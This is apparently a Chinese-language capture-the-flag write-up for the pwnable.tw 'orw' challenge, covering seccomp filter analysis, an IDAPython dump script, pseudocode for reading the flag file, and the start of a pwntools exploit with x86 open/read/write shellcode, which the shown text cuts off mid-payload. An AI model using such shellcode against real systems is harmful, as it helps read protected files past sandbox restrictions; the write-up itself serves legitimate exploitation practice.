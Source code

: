 * code是汇编指令
* jt是指令结果为true的跳转
* jf是指令结果为false的跳转
* k是指令的参数

可以看出，允许的调用号为: 0xad,0x77,0xfc,0x1,0x5,0x3,0x4,也就是上边对应的7个函数。

```
#define __NR_exit 1
#define __NR_read 3
#define __NR_write 4
#define __NR_open 5
```

方法三:  参考链接: https://blog.csdn.net/qq_29343201/article/details/78109066

目前采用的方法是IDApython脚本dump数据下来，然后输入scmp_bpf_disasm。IDApython的文档非常诡异，函数没有说明，函数的参数也不能直接看出来，所以搜了很长时间找了一个别人的。。

```
import idaapi
start_address = 0x8048640
data_length = 0x80486a0 - start_address
data = idaapi.get_many_bytes(start_address, data_length)
fp = open('C:\Users\HT\Desktop\orw.bpf', 'wb')
print(data)
fp.write(data)
fp.close()
print("done")
```

然后直接重定向至scmp_bpf_disasm：

这软件也不知道怎么装的，哎，先算了。

伪代码:

```
char *file="/home/orw/flag"
sys_open(file,0,0)
sys_read(3,file,0x30)
sys_write(1,file,0x30)
```

exp1:

```
from pwn import *

p = remote("chall.pwnable.tw", 10001)

# read -> open -> read -> write
shellcode = '''
mov eax, 0x03
xor ebx, ebx
mov ecx, esp
mov edx, 0x10
int 0x80

mov eax, 0x05
mov ebx, esp
xor ecx, ecx
xor edx, edx
int 0x80

mov ebx, eax 
mov eax, 0x03
mov ecx, esp
mov edx, 0x30
int 0x80
```